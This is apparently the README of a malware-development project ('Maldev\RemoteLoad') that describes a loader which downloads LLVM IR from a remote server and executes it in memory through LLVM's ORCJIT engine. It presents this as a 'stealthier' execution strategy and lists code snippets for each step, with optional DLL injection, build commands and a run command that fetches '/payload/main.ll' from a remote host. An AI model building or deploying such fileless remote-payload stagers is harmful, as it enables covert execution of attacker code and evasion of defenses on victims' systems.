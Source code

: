 # IR Payload Staging from Remote Server

Executing LLVM IR directly from memory provides a stealthier and more flexible execution strategy, especially in sandboxed or transient environments. Instead of using traditional on-disk execution like `lli`, this approach demonstrates fetching IR from a remote webserver and executing it entirely in-memory via LLVM’s `ORCJIT` engine.

## Execution Flow

Here's an explanation of how the remotely staged IR is loaded and executed using LLVM's ORCJIT engine in `main.cpp`.

1. Remote Download via WinHTTP: If the `--remoteload` option is used, the IR is downloaded at runtime using Windows HTTP APIs (`WinHttpOpen`, `WinHttpConnect`, `WinHttpReadData`, etc.) and stored into a memory buffer.

   ```cpp
   std::vector<BYTE> raw = DownloadIR(L"host", L"path");
   ```

2. MemoryBuffer Creation: The downloaded byte stream is wrapped in an LLVM `MemoryBuffer`, simulating a file-like interface for the parser.

   ```cpp
   buffer = MemoryBuffer::getMemBufferCopy(...);
   ```

3. IR Parsing in Memory: The buffer is passed into `parseIR`, producing a live LLVM `Module` in memory.

   ```cpp
   mod = parseIR(buffer->getMemBufferRef(), err, *ctx);
   ```

4. ThreadSafeModule Wrapping: The parsed IR module is encapsulated in a `ThreadSafeModule`, which is a requirement for modern ORCJIT usage.

   ```cpp
   auto tsm = ThreadSafeModule(std::move(mod), std::unique_ptr<LLVMContext>(ctx));
   ```

5. JIT Engine Initialization: ORCJIT is initialized with native target support and host symbol loading.

   ```cpp
   auto jit = LLJITBuilder().create();
   ```

6. Optional Shared Library Injection: If a `--load=library.dll` argument is passed, the dynamic library is loaded into the JIT process address space.

   ```cpp
   sys::DynamicLibrary::LoadLibraryPermanently("user32.dll");
   ```

7. IR Module Injection into JIT: The prepared IR module is added to the JIT runtime.

   ```cpp
   jit->addIRModule(std::move(tsm));
   ```

8. `main` Lookup and Execution: The `main` symbol is resolved and cast into a native function pointer, which is then invoked with arguments.

   ```cpp
   auto mainSym = jit->lookup("main");
   int result = mainFn(argc, argv);
   ```

## Build Steps

Use `cmake` to generate and build the Visual Studio project after statically embedding the IR logic in `main.cpp`.

```powershell
## Setup project
IRvana\Maldev\RemoteLoad> mkdir build
IRvana\Maldev\RemoteLoad> cd build
IRvana\Maldev\RemoteLoad> cmake -G "Visual Studio 17 2022" -A x64 ..

## Compile (Release only)
IRvana\Maldev\RemoteLoad> cmake --build . --config Release
```

## Test Execution

The executable supports both local IR files and remote IR download via command-line arguments.

```powershell
## Load IR from remote HTTP host
IRvana\Maldev\RemoteLoad\build\Release> ORCJITExec.exe --remoteload mydomain.com|127.0.0.1 /payload/main.ll
```

